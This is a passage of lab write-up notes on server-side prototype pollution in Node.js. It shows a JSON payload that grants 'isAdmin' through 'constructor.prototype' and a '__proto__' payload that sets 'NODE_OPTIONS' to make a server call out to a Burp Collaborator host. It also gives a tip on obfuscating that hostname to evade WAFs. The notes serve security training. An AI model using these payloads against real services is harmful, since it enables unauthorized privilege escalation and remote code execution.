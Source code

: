 So to solve the lab:
```bash
{
    "address_line_1": "Wiener2 HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "dNAgwf2sCTAoS33HT6R2qR5VWRaIlI9x",
    "constructor": {
        "prototype": {
            "isAdmin":true
        }
    }
}
```

### Remote code execution via server-side prototype pollution
There are a number of potential command execution sinks in Node, many of which occur in the child_process module. These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called. 

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. As this is also a property on the env object, you can potentially control this via prototype pollution if it is undefined. 

Some of Node's functions for creating new child processes accept an optional shell property, which enables developers to set a specific shell, such as bash, in which to run commands. By combining this with a malicious NODE_OPTIONS property, you can pollute the prototype in a way that causes an interaction with Burp Collaborator whenever a new Node process is created:
```bash
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

This way, you can easily identify when a request creates a new child process with command-line arguments that are controllable via prototype pollution.

> Tip:
>
> The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames. 

### Remote code execution via child_process.fork()
Methods such as child_process.spawn() and child_process.fork() enable developers to create new Node subprocesses. The fork() method accepts an options object in which one of the potential options is the execArgv property. This is an array of strings containing command-line arguments that should be used when spawning the child process. If it's left undefined by the developers, this potentially also means it can be controlled via prototype pollution.
